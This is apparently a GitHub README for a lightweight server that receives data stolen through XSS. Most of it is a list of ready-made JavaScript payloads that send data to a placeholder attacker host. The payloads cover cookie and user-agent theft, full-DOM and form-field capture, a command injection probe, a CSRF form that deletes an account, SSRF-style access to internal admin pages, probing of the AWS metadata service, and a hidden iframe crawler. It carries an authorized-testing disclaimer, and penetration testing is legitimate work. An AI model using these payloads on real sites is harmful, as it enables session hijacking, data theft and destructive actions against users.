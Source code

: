 

# 🕵️ XSS Exfiltration Receiver ( Lite Edition )

A lightweight HTTP server to capture, decode, and store exfiltrated data from XSS payloads via URL query parameters or POST bodies. 
Supports recursive Base64 and URL decoding, automatic HTML detection, and file storage.

## 📦 Contents

```

xss\_receiver/
├── receiver__.py       # Python3 receiver server (GET/POST + decoder)
├── decoded\_html/    # Output folder for saved HTML payloads
└── README.md        # This file

````

---

## 🚀 Getting Started

### 1. Start the Receiver

```bash
python3 receiver__.py --port 8080 --show
````

| Flag     | Description                                    |
| -------- | ---------------------------------------------- |
| `--port` | Port to listen on (default: `80`)              |
| `--show` | Display decoded HTML in terminal (if detected) |

---

### 2. Use with a Payload

You can exfiltrate Base64-encoded content to this server via:

#### ➤ GET Example

```html
<img src="http://YOUR-IP:8080/?data=BASE64_ENCODED_PAYLOAD">
```

#### ➤ POST Example

```javascript
fetch("http://YOUR-IP:8080/", {
  method: "POST",
  body: "data=BASE64_ENCODED_PAYLOAD"
});
```

---

## 💡 Features

* 🔁 Recursive decoding of Base64 and URL-encoded strings (up to 5 layers)
* 🧠 HTML auto-detection via `<html>` / `<!doctype>` tags
* 💾 Saves decoded HTML to `decoded_html/` folder with timestamped filenames
* 👁️ Optional real-time display of decoded payloads
* ✅ Supports both `GET` (query param) and `POST` (form body) exfiltration

---

## 🗂️ Output

| Output Type           | Description                              |
| --------------------- | ---------------------------------------- |
| `decoded_html/*.html` | Decoded HTML payloads (auto-detected)    |
| (stdout)              | Decoding layers, final preview, warnings |

---

## 🧪 Example Payloads

```javascript
// DOM Exfiltration
fetch("http://YOUR-IP:8080/?data=" + btoa(document.documentElement.outerHTML));

// Cookie Theft
fetch("http://YOUR-IP:8080/?data=" + btoa(document.cookie));
```

##
##

#### 🔍 Full DOM Extraction

```javascript
fetch("http://YOUR-IP:8080/?data=" + btoa(document.documentElement.outerHTML));
```

#### 🍪 Cookie + User-Agent Theft

```javascript
fetch("http://YOUR-IP:8080/?data=" + btoa(document.cookie + ' | ' + navigator.userAgent));
```

#### 🌐 Internal IP Address Leak

```javascript
fetch("http://YOUR-IP:8080/?data=" + btoa(location.href + ' | ' + location.hostname));
```

#### 🧬 DOM Form Field Enumeration

```javascript
let inputs = [...document.querySelectorAll('input')].map(i => `${i.name}=${i.value}`).join('&');
fetch("http://YOUR-IP:8080/?data=" + btoa(inputs));
```

#### 🕳️ Blind Command Injection Probe (API param)

```javascript
fetch("/api/status", {
  method: "POST",
  body: JSON.stringify({ host: "127.0.0.1; id" }),
  headers: { "Content-Type": "application/json" }
})
.then(r => r.text())
.then(t => fetch("http://YOUR-IP:8080/?data=" + btoa(t)));
```

#### 🪝 CSRF Auto-Submit Form

```javascript
let f = document.createElement("form");
f.method = "POST";
f.action = "/account/delete";
document.body.appendChild(f);
f.submit();
```

#### 🕸️ Accessing Internal Admin Panel (SSRF Style)

```javascript
fetch("http://127.0.0.1/admin").then(r => r.text())
  .then(txt => fetch("http://YOUR-IP:8080/?data=" + btoa(txt)));
```

#### ☁️ Cloud Metadata Service Probing (AWS)

```javascript
fetch("http://169.254.169.254/latest/meta-data/hostname")
  .then(r => r.text())
  .then(data => fetch("http://YOUR-IP:8080/?data=" + btoa(data)));
```

#### ⚠️ JavaScript Error Beacon

```javascript
window.onerror = (msg, url, line, col, err) => {
  fetch("http://YOUR-IP:8080/?data=" + btoa(`${msg} at ${url}:${line}:${col}`));
};
```

#### 🧭 Hidden Iframe Crawler

```javascript
let ifr = document.createElement("iframe");
ifr.src = "/hidden/config";
ifr.onload = () => {
  try {
    let d = ifr.contentDocument || ifr.contentWindow.document;
    fetch("http://YOUR-IP:8080/?data=" + btoa(d.body.innerText));
  } catch (e) {}
};
document.body.appendChild(ifr);
```

---



## 🔐 Security Notice

This tool is intended for **authorized testing and education only**. Do not use against systems without **explicit written permission**. Follow ethical guidelines and all legal regulations in your jurisdiction.

---

## 🛠 TODO (Optional Future Features)

* Add JSON output support (e.g., `--json-log`)
* Add IP filtering and allowlists
* Add Slack/Webhook alerts
* Add live HTML replay view in browser

---

## 👨‍💻 Author Notes

This is a simplified version of a more feature-rich receiver/payload suite. 
Designed to be easy to run and inspect in minimal environments. For more advanced use cases, see the full version (coming soon).

Built with ❤️ by security researchers, for security researchers.



